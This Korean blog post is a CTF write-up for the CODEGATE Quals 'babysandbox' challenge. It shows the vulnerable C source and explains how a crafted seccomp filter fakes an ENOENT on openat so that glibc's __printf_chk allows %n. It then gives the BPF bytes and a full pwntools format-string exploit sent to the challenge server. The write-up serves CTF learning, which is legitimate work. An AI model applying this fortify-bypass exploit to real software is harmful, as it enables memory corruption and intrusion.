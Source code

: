 ```yaml
---
layout: post
date: 2024-11-04
title: "CODEGATE Quals babysandbox write-up"
tags: [pwnable, seccomp, FSB, ]
categories: [CTF, CODEGATE, ]
---
```




### 문제 분석


---



{% raw %}
```c
// gcc box.c -o box -no-pie

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <fcntl.h>
#include <unistd.h>
#include <linux/seccomp.h>
#include <sys/prctl.h>

#define FLAG_PATH "/flag"

int install_seccomp(uint8_t *filt, unsigned short len);
void vuln();
void read_flag();

uint32_t target = 0xdead;

int main(int argc, char **argv) {
    uint32_t filt_len;

    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    read(0, &filt_len, sizeof(uint32_t));
    if (filt_len > 0x200) {
        __printf_chk(1, "Too much T_T\n");
        return 1;
    }
    uint8_t *filt =  (unsigned char *)calloc(sizeof(uint8_t), filt_len);
    int res = read(0, filt, filt_len);
    if (res != filt_len) {
        __printf_chk(1, "Cannot read enough T_T\n");
        return 1;
    }

    if (install_seccomp(filt, (unsigned short)filt_len))
        return 1;

    vuln();

    return 0;
}

int install_seccomp(unsigned char *filt, unsigned short filt_len) {
    struct prog {
        unsigned short len;
        unsigned char *filt;
    } rule = {
        .len = filt_len >> 3,
        .filt = filt
    };

    if (prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0) < 0) {
        __printf_chk(1, "Failed to prctl(PR_SET_NO_NEW_PRIVS) T_T\n");
         return 1;
    }
    if (prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &rule) < 0) { 
        __printf_chk(1, "Failed to prctl(PR_SET_SECCOMP) T_T\n");
         return 1;
    }
    return 0;
}

void vuln() {
    char input[0x100];
    memset(input, 0, sizeof(input));

    __printf_chk(1, "Let's check our mitigation ^_^\n");
    __printf_chk(1, "Protect : %p\n", &target);
    int res = read(0, input, sizeof(input) - 1);
    if (res < 0) {
        __printf_chk(1, "Functionality is broken T_T\n");
        return;
    }
    // We have a dangerous vulnerability here!
    __printf_chk(1, input);

    if (target == 0x1337) {
        __printf_chk(1, "Mitigation failed.. The flag has been exposed T_T\n");
        read_flag();
    }
    else {
        __printf_chk(1, "\nNow we are safe from memory corruption! Thank you ^_^\n");
    }
    return;
}

void read_flag() {
    int fd = open(FLAG_PATH, O_RDONLY);
    char flag_buf[0x100];

    if (fd < 0) {
        __printf_chk(1, "Failed to open flag, contact admin please T_T\n");
        exit(1);
    }

    memset(flag_buf, 0, sizeof(flag_buf));
    int res = read(fd, flag_buf, sizeof(flag_buf));

    if (res < 0) {
        __printf_chk(1, "Failed to read flag, contact admin please T_T\n");
        exit(1);        
    }
    close(fd);
    write(1, flag_buf, res);

    return;
}
```
{% endraw %}



입력 받은 seccomp 필터를 바이너리에 적용한 후에 FSB를 트리거 할 수 있게 해준다.


target을 0x1337로 변조하면 플래그를 출력해주지만, `printf_chk` 함수는 `%n`을 사용하지 못한다.


<br>


그러나 read-only 영역에서는 `%n`을 사용할 수 있으며, glibc에서는 `/proc/self/maps`를 열어 read-only 영역인지 판단한다.


<br>


`__readonly_area` 함수에서는 해당 포인터가 read-only 영역인지 확인한다. 하지만 fopen에 실패했을 경우 에러코드를 통해 해당 영역이 read-only 영역에 해당하는 지를 반환한다. 



{% raw %}
```c
int
__readonly_area (const char *ptr, size_t size)
{
  const void *ptr_end = ptr + size;

  FILE *fp = fopen ("/proc/self/maps", "rce");
  if (fp == NULL)
    {
      /* It is the system administrator's choice to not have /proc
	 available to this process (e.g., because it runs in a chroot
	 environment.  Don't fail in this case.  */
      if (errno == ENOENT
	  /* The kernel has a bug in that a process is denied access
	     to the /proc filesystem if it is set[ug]id.  There has
	     been no willingness to change this in the kernel so
	     far.  */
	  || errno == EACCES)
	return 1;
      return -1;
    }
.
.
```
{% endraw %}



{: file='sysdeps/unix/sysv/linux/readonly-area.c'}


<br>


seccomp를 통해 `openat` 시스템콜을 막고 원하는 에러코드를 반환하도록 설정할 수 있다.


한가지 주의해야할 점은 flag 파일을 읽어들일 때도 `openat` 시스템콜을 사용하므로 인자로 플래그 파일명 포인터가 넘어왔을 때는 허용해주었다.


또한 `openat` 시스템콜은 rsi를 파일명 포인터로 받으므로 `A = args[1]`로 설정해주어야 한다.



{% raw %}
```ruby
A = sys_number
A != openat ? ok : next
A = args[1]
A == 0x402147 ? ok : next
return ERRNO(2)
ok:
return ALLOW
```
{% endraw %}



이제 `%n`을 사용할 수 있으므로 FSB를 통해 값을 변조하면 된다.



### 익스플로잇


---



{% raw %}
```python
import requests
import base64 
from pwn import*

send_payload:list[bytes] = []

bpf = b"\x20\x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x04\x01\x01\x00\x00\x20\x00\x00\x00\x18\x00\x00\x00\x54\x00\x00\x00\xff\x00\x00\x00\x15\x00\x01\x00\x47\x00\x00\x00\x06\x00\x00\x00\x02\x00\x05\x00\x06\x00\x00\x00\x00\x00\xff\x7f"
send_payload.append(p32(len(bpf)))
send_payload.append(bytes(bpf))


payload = b''
payload += b'%' + b'4856' + b'c' # 0x1337
payload += b'%d%d%d%d%d%d%d%d%d%n'
payload += b'A' * (8 - (len(payload) % 8))
payload += p64(0x404088)
send_payload.append(payload)

result_payload = b''.join(send_payload)

res = requests.post('http://15.164.245.40:1400/', data={'payload':base64.b64encode(result_payload)})

print(res.text)
```
{% endraw %}




### 레퍼런스


---


[https://0xacb.com/2017/11/19/hxp-flag-store/](https://0xacb.com/2017/11/19/hxp-flag-store/)

